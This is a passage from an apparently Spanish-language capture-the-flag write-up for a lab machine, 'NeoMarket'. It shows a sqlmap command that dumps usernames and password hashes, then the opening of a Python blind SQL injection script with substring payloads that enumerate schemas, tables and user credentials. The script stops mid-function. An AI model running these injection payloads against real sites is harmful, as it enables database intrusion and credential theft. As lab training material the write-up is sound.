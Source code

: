 Finalmente, dumpearemos la información de la tabla **users** gracias al siguiente comando.

```bash
sqlmap -r req.req -p "id" -D shop -T users -C username,password --dump --batch --level 5 --risk 3
```

Tal y como vemos a continuación, encontraremos dos hashes: el nuestro y el del usuario **admin**. En este punto, procederemos a crackear el **hash** de dicho usuario: **Cracking admin hash**

![](<../assets/images/posts/2025-03-19-neomarket/Pasted image 20250318145446.png>)

#### Manual - Python Script

Gracias al siguiente script, seremos capaces de volcar toda la información de la base de datos, es decir, obtener el **hash** del usuario **admin**. 

```python
#!/usr/bin/env python3

# Author: Álvaro Bernal (aka. trr0r)

import requests, string, time, signal, sys
from pwn import *

characters = string.ascii_lowercase + string.ascii_uppercase + string.digits + "-_:,$.@/~1&*"

main_url = "http://neomarket.bbl/compras.php"

# Establecemos la cookie de sesión de nuestro usuario
cookies = {
    'PHPSESSID' : 'sv1ra931u11dc765ec5co2i41m'
}

# Payloads usados para dumpear la información de la base de datos
# databases = "111' or substring((select group_concat(schema_name) from information_schema.schemata),%d,1)='%s'-- -" % (position, character)
# shop's tables = "111' or substring((select group_concat(table_name) from information_schema.tables where table_schema='shop'),%d,1)='%s'-- -" % (position, character)
# columns users = "111' or substring((select group_concat(column_name) from information_schema.columns where table_schema='shop' and table_name = 'users'),%d,1)='%s'-- -" % (position, character)
# users's information = "111' or substring((select group_concat(BINARY(username),0x3a,BINARY(password)) from shop.users),%d,1)='%s'-- -" % (position, character)

def ctrl_c(key, event):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c)

def makeSQLI():

    cadena = ""
    p1 = log.progress("SQLI")
    p1.status("Fuerza bruta")
    p2 = log.progress("Información extraída")
    
```